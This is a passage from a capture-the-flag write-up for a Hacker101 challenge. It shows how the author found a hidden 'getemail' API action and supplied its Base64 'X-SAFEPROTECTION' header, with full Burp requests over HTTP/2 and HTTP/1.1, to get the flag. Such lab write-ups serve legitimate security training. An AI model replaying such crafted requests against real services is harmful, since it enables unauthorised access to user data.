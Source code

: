 OK so there's a getemail act for the action API, with a request header X-SAFEPROTECTION, value looks like Base64

```
zseanoofcourse
```

Yup! OK lets call the function from the dev console and proxy to Burp

Request
```XML
GET /api/action.php?act=getemail HTTP/2
Host: xxx.ctf.hacker101.com
Cookie: _ga=GA1.2.2088535546.1649282063; _gid=GA1.2.2127104828.1652715494; welcome=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Safeprotection: enNlYW5vb2Zjb3Vyc2U=
Referer: https://xxx.ctf.hacker101.com/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

Response
```XML
HTTP/2 200 OK
Date: Tue, 17 May 2022 22:18:23 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 0
Server: openresty/1.19.9.1
X-Powered-By: PHP/7.2.34
```

Hmmm not what I expected? This felt like the flag?!....

The javascript explicitly set's the header as X-SAFEPROTECTION (all uppercase). Trying to force this in Burp repeater gives the warning "Your request is kettled". This seems to be something to do with the HTTP/2 request.

If I explicitly set it to a HTTP/1 request in Burp I get the flag :)

Request

```
GET /api/action.php?act=getemail HTTP/1.1
Host: xxx.ctf.hacker101.com
Cookie: _ga=GA1.2.2088535546.1649282063; _gid=GA1.2.1634831032.1654034640; _gat_gtag_UA_49905813_11=1; welcome=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-SAFEPROTECTION: enNlYW5vb2Zjb3Vyc2U=
Referer: https://xxx.ctf.hacker101.com/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```
